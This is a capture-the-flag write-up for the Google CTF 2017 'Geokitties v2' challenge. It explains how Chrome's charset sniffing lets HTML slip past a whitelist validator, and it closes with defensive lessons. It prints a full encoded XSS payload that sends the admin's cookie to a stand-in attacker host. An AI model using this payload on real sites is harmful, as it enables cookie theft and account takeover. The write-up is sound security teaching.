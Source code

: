 # Write-up: Google CTF 2017 | Geokitties v2

[**Geokitties v2**](https://geokittiesv2.web.ctfcompetition.com/) is an XSS
challenge that comes in the look of the late-90's personal homepage of an avid
cat enthusiast. The site's only operative feature is a comment form that
permits a small subset of HTML. Any supplied comment is immediately reviewed by
the automated administrator bot that will click on any link in the comment
text.  Here, the challenge is to submit a comment that passes all checks of the
deployed HTML validator and at the same time triggers XSS on the
administrator's end to exfiltrate a secret flag cookie.

Interestingly, there is a shortcut to solve this challenge. Instead of
exploiting weaknesses in the HTML parser itself, we can take advantage of
Google Chrome's lax charset sniffing to simply bypass parts the validation
process.

## The HTML validator

The application is written in Node.js and uses the
[`htmlparser2`](https://github.com/fb55/htmlparser2) module to parse the HTML
in every provided comment text. The validator then roughly takes these steps to
ensure that the supplied HTML is safe:

- Only allow HTML tags from a whitelist (`p`, `a`, `b`, `img`, `br`, `i`) to
  prevent dangerous tags with side effects (e.g. `<script>` or `<iframe>`).
- Exclude all `on.*` event handler attributes (e.g. to prevent an `onclick`
  event attached to an otherwise innocuous `<a>` link).
- Allow an `href` attribute only if the value starts with `http[s]:` to prevent
  XSS via pseudo schemes such as `javascript:` or `data:`.

One possible attack approach here is to examine the parser's handling of
duplicate attributes and attributes that are written in mixed case or
interspersed with unexpected Unicode glyphs. Other ideas include supplying an
excessive amount of attributes or using ambiguous formatting – e.g. by mixing
different types of quotes, or by finding a character that the application's
parser interprets as whitespace while the browser sees it as part of an
identifier.

## A different approach: Charset sniffing

But luckily we don't need to examine the parser implementation to solve the
challenge. Instead, we take advantage of the fact that the site is served as
`text/html`, but lacks a charset declaration. In such a case, browsers employ
different heuristics to *guess* the intended charset. But while convenient,
charset sniffing can become unpredictable quickly.  E.g., Chrome interprets
`data:text/html,%AA%BB`as being encoded in the Chinese `Big5` charset, while
`data:text/html,%00%BB` is sniffed as UTF-16LE although two bytes hardly allow
a reliable determination.

For this challenge, we mislead Chrome to detect UTF-16BE (Big Endian) by
using the byte sequence `\x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x`. In
UTF-16, Unicode code points are encoded in chunks of at least 16 bits. E.g.,
the character `A` (which is encoded in UTF-8 as `\x41`) needs to be encoded as
`\x00\x41` in UTF-16BE (or `\x41\x00` in UTF-16LE).  Consequently, the document
`data:text/html;charset=utf-16be,<br>` doesn't yield a single `<br>` tag but
results in the two Unicode glyphs `\u3C62` and `\u723E`. We can exploit this
behavior to make the browser "swallow" sequences that appear as parts of the
HTML syntax in UTF-8 but don't have an effect in a different charset. This way
we can ultimately inject arbitrary tags outside the parser's whitelist.

The format of our comment looks like this:

    \x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x<a href="http:$payload">foo</a>

This comment is validated by the application in UTF-8 but displayed in the
browser in UTF-16BE. So, any angle brackets and tags that appear inside the
`href` attribute value would be considered secure by the validator, while the
browser doesn't recognize the `<a>` tag in the fist place. At `$payload` we can
then simply inject arbitrary HTML code in UTF-16BE. That is, if we have an
ASCII-based payload, we just need to pad it with null bytes and make sure it
doesn't interfere with the double quotes of the original tag. To exfiltrate the
flag, we then just issue a redirect to an attacker-controlled domain with the
cookie attached.

So, the final URL-encoded sequence could look like this:

    %11x%12x%13x%14x%15x%16x%17x%18x%19x%3Ca%20href%3D%22http%3A%00<%00a%00 %00h%00r%00e%00f%00=%00j%00a%00v%00a%00s%00c%00r%00i%00p%00t%00:%00l%00o%00c%00a%00t%00i%00o%00n%00=%00'%00h%00t%00t%00p%00s%00:%00/%00/%00a%00t%00t%00a%00c%00k%00e%00r%00.%00s%00i%00t%00e%00/%00'%00%%002%00B%00d%00o%00c%00u%00m%00e%00n%00t%00.%00c%00o%00o%00k%00i%00e%00>%00f%00o%00o%00<%00/%00a%00>%22%3e

For readability, this is the sequence again with non-printable characters
replaces with spaces:

     x x x x x x x x x <a href="http: < a   h r e f = j a v a s c r i p t : l o c a t i o n = ' h t t p s : / / a t t a c k e r . s i t e / ' + d o c u m e n t . c o o k i e > f o o < / a >">

With that payload, we will receive the following flag at
`https://attacker.example/`:

    CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}

It's worth noting that not all browsers perform the same lax charset sniffing
as Google Chrome does – e.g., the trick wouldn't work in Firefox. But
fortunately, in this challenge the admin bot is implemented as a headless
instance of Google Chrome.

## Another idea: Byte order marks

Curiously, the application almost fell for a different trap that would even
have defeated an explicit charset declaration. An attacker who controls the
first bytes in a document can inject a BOM (byte order mark) to override the
specified charset – even if it [originates from a header declaration](https://www.w3.org/International/questions/qa-byte-order-mark):

> Changes introduced with HTML5 mean that the byte-order mark overrides any
encoding declaration in the HTTP header when detecting the encoding of an HTML
page.

The BOM for UTF-16BE is `\xFE\xFF`, so this document is encoded in UTF-16BE,
despite being declared as UTF-8:

    data:text/html;charset=utf-8,%FE%FFfoo

But unfortunately, this technique doesn't work in the challenge because BOMs
aren't preserved by the application. E.g., `\xFF` is converted to
`\xEF\xBF\xBD`.

## Lessons learned

Web applications should always declare a charset explicitly and not rely on
automated detection by browsers. This is because the different charset sniffing
techniques make it hard to predict browser behavior. Also, an attacker should
not be able to control the first few bytes in a document. Depending on the
implementation, that otherwise facilitates charset and content-type sniffing
attacks.
